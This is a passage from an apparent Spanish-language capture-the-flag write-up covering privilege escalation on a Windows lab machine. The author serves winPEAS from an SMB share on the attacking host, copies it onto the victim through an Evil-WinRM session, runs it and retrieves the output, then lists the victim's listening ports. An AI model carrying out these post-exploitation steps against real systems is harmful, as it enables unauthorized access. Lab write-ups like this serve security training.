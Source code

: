 ## Privilege Escalation

Nuestro usuario no tiene privilegios para poder escalar así que vamos a descargarnos `Winpeas.exe` para que enumere el sistema [https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225](https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225). Nos montamos un servidor `SMB` en el `mismo directorio` que el archivo `Winpeas.exe`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina víctima nos `descargamos` el `archivo` 

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> copy \\10.10.16.16\smbFolder\winPEASany.exe
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> dir


    Directory: C:\Windows\Temp\Priivesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/28/2024  10:12 AM        2387968 winPEASany.exe
```

Ejecutamos `Winpeas.exe` y `almacenamos` el `output` en un archivo para `descargarlo` en nuestra `máquina`, el archivo se `descargará` en la `ruta` de nuestro `equipo` desde la que hemos `abierto` el `evil-winrm`

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> ./winPEASany.exe > output.txt
winPEASany.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
    
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> download output.txt
                                        
Info: Downloading C:\Windows\Temp\Priivesc\output.txt to output.txt
                                        
Info: Download successful!
```

Estos son los `puertos` y `servicios` que tiene la máquina víctima

```
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               135           0.0.0.0               0               Listening         704             svchost
TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               49408         0.0.0.0               0               Listening         460             wininit
TCP        0.0.0.0               49409         0.0.0.0               0               Listening         828             svchost
TCP        0.0.0.0               49410         0.0.0.0               0               Listening         1140            spoolsv
TCP        0.0.0.0               49411         0.0.0.0               0               Listening         940             svchost
```